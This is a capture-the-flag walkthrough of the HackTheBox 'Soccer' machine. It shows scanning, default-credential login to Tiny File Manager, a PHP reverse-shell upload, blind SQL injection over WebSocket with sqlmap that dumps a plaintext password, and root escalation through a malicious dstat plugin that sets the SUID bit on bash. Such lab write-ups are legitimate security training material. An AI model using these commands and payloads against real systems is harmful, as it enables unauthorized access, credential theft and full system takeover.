

HackTheBox Soccer
- Name: Soccer
- IP: 10.10.11.194
- Defficulty: Easy
- OS: Linux
- Author: sau123
Nmap
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChXu/2AxokRA9pcTIQx6HKyiO0odku5KmUpklDRNG+9sa6olMd4dSBq1d0rGtsO2rNJRLQUczml6+N5DcCasAZUShDrMnitsRvG54x8GrJyW4nIx4HOfXRTsNqImBadIJtvIww1L7H1DPzMZYJZj/oOwQHXvp85a2hMqMmoqsljtS/jO3tk7NUKA/8D5KuekSmw8m1pPEGybAZxlAYGu3KbasN66jmhf0ReHg3Vjx9e8FbHr3ksc/MimSMfRq0lIo5fJ7QAnbttM5ktuQqzvVjJmZ0+aL7ZeVewTXLmtkOxX9E5ldihtUFj8C6cQroX69LaaN/AXoEZWl/v1LWE5Qo1DEPrv7A6mIVZvWIM8/AqLpP8JWgAQevOtby5mpmhSxYXUgyii5xRAnvDWwkbwxhKcBIzVy4x5TXinVR7FrrwvKmNAG2t4lpDgmryBZ0YSgxgSAcHIBOglugehGZRHJC9C273hs44EToGCrHBY8n2flJe7OgbjEL8Il3SpfUEF0=
| 256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIy3gWUPD+EqFcmc0ngWeRLfCr68+uiuM59j9zrtLNRcLJSTJmlHUdcq25/esgeZkyQ0mr2RZ5gozpBd5yzpdzk=
| 256 5797565def793c2fcbdb35fff17c615c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2Pj1mZ0q8u/E8K49Gezm3jguM3d8VyAYsX0QyaN6H/
80/tcp open http syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open xmltec-xmlmail? syn-ack
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
| HTTP/1.1 400 Bad Request
| Connection: close
| GetRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 139
| Date: Tue, 17 Jan 2023 09:24:28 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot GET /</pre>
| </body>
| </html>
| HTTPOptions, RTSPRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 143
| Date: Tue, 17 Jan 2023 09:24:29 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot OPTIONS /</pre>
| </body>
|_ </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
# Keyspace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Three ports are open.
- 22/TCP SSH
- OpenSSH 8.2p1
- And its banner says that this is a Ubuntu box
- 80/TCP HTTP
- nginx 1.18.0
- Add
soccer.htbinto/etc/hosts
- 9091/TCP
Web Enumeration
http://soccer.htb/ is just an static website.
Directory Fuzzing
Found two interesting directories.
> ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -c -recursion
tiny [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 210ms]
[INFO] Starting queued job on target: http://soccer.htb/tiny/FUZZ
uploads [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 224ms]
http://soccer.htb/tiny is a login form for Tiny File Manager. If we look into the page source code, we can find the version of the Tiny File Manager.
<a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a> ——
Since we don’t have any credentials yet, let’s try to find and use default credentials to authenticate.
And we can login as the admin user with default credentials.
admin:admin@123
Foothold
After login, we can see that now we can upload files to the webroot. Let’s try to upload a php-reverse-shell.php file and try to get reverse shell.
Upload the shell.php to the upload directory from the Tiny File Manager.
Start a reverse connection listener. And then navigate to the http://soccer.htb/tiny/uploads/shell.php.
And we got a shell as the www-data user.
Privesc [Player]
Looks like we have one user called player.
www-data@soccer:/$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
If we view the /etc/nginx/sites-available/soc-player.htb, we can see thats custom subdomain.
www-data@soccer:/etc/nginx/sites-enabled$ cat /etc/nginx/sites-available/soc-player.htb
server {
listen 80;
listen [::]:80;
server_name soc-player.soccer.htb;
root /root/app/views;
location / {
proxy_pass http://localhost:3000;
proxy_http_version 1.1;
proxy_set_header Upgrade $http_upgrade;
proxy_set_header Connection 'upgrade';
proxy_set_header Host $host;
proxy_cache_bypass $http_upgrade;
}
}
So let’s add soc-player.soccer.htb into our /etc/hosts file.
Go to http://soc-player.soccer.htb/ and create an account.
While looking at the page source, I saw this.
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
window.onload = function () {
var btn = document.getElementById('btn');
var input = document.getElementById('id');
ws.onopen = function (e) {
console.log('connected to the server')
}
input.addEventListener('keypress', (e) => {
keyOne(e)
});
In http://soc-player.soccer.htb/check we can check our ticket numbers validity. So let’s intercept the reqest from the BurpSuite and see whats going.
When we send our accual ticket number, it says Ticket Exists and if send some random garbage, it says Ticket Doesn't Exist. So let’s find the vulnerability here.
After a while, I found a Blind SQL Injection.

Once we send an invalid id with a SQLi payload, it says Ticket Exists.
Since we are dealing with WebSockets here, let’s find a way to do SQL injection over WebSocket.
After some time, I found this article about Automating Blind SQL injection over WebSocket.
Using that python script, we can exploit SQLi over websockets.
Modify the script according to our needs and run it.
> python3 script.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
Now we can run sqlmap as follows.
(This is going to take a long time to process. So go get a coffee or something before we begin the attack)
> sqlmap -u http://localhost:8081/?id=1 --batch --dbs
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
> sqlmap -u http://localhost:8081/?id=1 --batch -D soccer_db --tables
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
> sqlmap -u http://localhost:8081/?id=1 -D soccer_db -T accounts --dump
+------+-------------------+----------------------+----------+
| id | email | password | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player |
+------+-------------------+----------------------+----------+
Login to the box as the user player and capture the user flag.
player@soccer:~$ whoami
player
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ cat user.txt
d3e**************************f33
Privesc [Root]
If we look for SUID binaries, we can notice /usr/bin/doas is showing up.
player@soccer:~$ find / -perm -4000 -type f 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
Let’s find the doas.conf so we can find what we can do with this doas binary.
player@soccer:~$ find / -name doas.conf -type f 2>/dev/null
/usr/local/etc/doas.conf
We can run /usr/bin/dstat as the root user with no password.
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
According to this artcle, we can use dstat with custom malicious plugin to elevate our privileges.
First we have to find a writable path, so we can create a custom plugin in that directory.
player@soccer:~$ find / -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
/usr/bin/dstat
/usr/local/share/dstat is writable directory. So we can create a custom plugin within that directory.
player@soccer:/usr/local/share/dstat$ pwd
/usr/local/share/dstat
player@soccer:/usr/local/share/dstat$ touch test
player@soccer:/usr/local/share/dstat$ ls
test
Now create the custom plugin. dstat_exploit.py will be looks like this.
import os
os.system("chmod u+s /bin/bash")
Now run the /usr/bin/dstat and get a root shell.
> doas -u root /usr/bin/dstat --exploit
> ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
> bash -p
bash-5.0# id
uid=1001(player) gid=1001(player) euid=0(root) groups=1001(player)
bash-5.0# cat /root/root.txt
32b**************************f67